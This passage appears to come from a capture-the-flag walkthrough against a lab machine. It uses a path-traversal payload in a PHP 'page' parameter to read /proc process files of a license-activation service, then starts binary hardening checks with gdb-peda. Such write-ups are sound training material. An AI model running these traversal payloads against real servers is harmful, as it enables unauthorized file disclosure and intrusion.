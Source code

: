 Then, we can find out what is being run:

```
$ curl http://10.129.227.96/index.php?page=../../../../../../../proc/432/cmdline -o test

$ cat test                                                                                                                                                                    
/usr/bin/activate_license1337
```

We can then enumerate `/proc/432/maps` in order to see the libraries loaded in memory space.

```
$ curl http://10.129.227.96/index.php?page=../../../../../../../proc/432/maps
7f7d0d2c7000-7f7d0d2c9000 rw-p 00000000 00:00 0 
7f7d0d2c9000-7f7d0d2ca000 r--p 00000000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f7d0d2ca000-7f7d0d2cc000 r-xp 00001000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f7d0d2cc000-7f7d0d2cd000 r--p 00003000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f7d0d2cd000-7f7d0d2ce000 r--p 00003000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f7d0d2ce000-7f7d0d2cf000 rw-p 00004000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f7d0d2cf000-7f7d0d2d6000 r--p 00000000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f7d0d2d6000-7f7d0d2e6000 r-xp 00007000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f7d0d2e6000-7f7d0d2eb000 r--p 00017000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f7d0d2eb000-7f7d0d2ec000 r--p 0001b000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f7d0d2ec000-7f7d0d2ed000 rw-p 0001c000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f7d0d2ed000-7f7d0d2f1000 rw-p 00000000 00:00 0 
7f7d0d2f1000-7f7d0d300000 r--p 00000000 08:01 3636                       /usr/lib/x86_64-linux-gnu/libm-2.31.so
7f7d0d300000-7f7d0d39a000 r-xp 0000f000 08:01 3636                       /usr/lib/x86_64-linux-gnu/libm-2.31.so
<TRUNCATED>
```

### Ghidra + Offset

First we can see that PIE is enabled on this binary:

```
gdb-peda$ checksec activate_license
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```
